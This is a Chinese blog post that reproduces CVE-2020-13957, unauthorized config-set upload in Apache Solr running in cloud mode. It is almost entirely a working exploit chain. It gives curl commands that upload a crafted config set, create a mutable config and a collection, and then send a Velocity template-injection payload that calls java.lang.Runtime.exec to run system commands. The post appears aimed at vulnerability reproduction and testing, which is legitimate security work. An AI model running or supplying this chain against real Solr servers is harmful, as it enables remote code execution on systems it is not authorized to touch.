




# CVE-2020-13957 solr 未授权复现 - ph4nt0mer - 博客园

> 原文：[`www.cnblogs.com/ph4nt0mer/p/13822167.html`](https://www.cnblogs.com/ph4nt0mer/p/13822167.html)

需要 solr 以 cloud 模式启动，特征是：


会有一个 cloud 的功能 。

编译一个恶意配置：



在对应目录下依次执行以下 shell 命令。

/solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf

zip -r - * > mytest.zip

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "[`127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=mytest`](http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=mytest)" #注册一个配置文件集合为 mytest

curl "[`127.0.0.1:8983/api/cluster/configs?omitHeader=true`](http://127.0.0.1:8983/api/cluster/configs?omitHeader=true)" #查询配置文件集合是否上传成功

curl "[`127.0.0.1:8983/solr/admin/configs?action=CREATE&name=mytest2&baseConfigSet=mytest&configSetProp.immutable=false&wt=xml&omitHeader=true`](http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=mytest2&baseConfigSet=mytest&configSetProp.immutable=false&wt=xml&omitHeader=true)"

curl "[`127.0.0.1:8983/solr/admin/collections?action=CREATE&name=mytest&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest2`](http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=mytest&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest2)" #使用之前上传的配置文件集合为 mytest



```
curl -v "http://127.0.0.1:8983/solr/mytest/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end" 
```

最后执行命令：

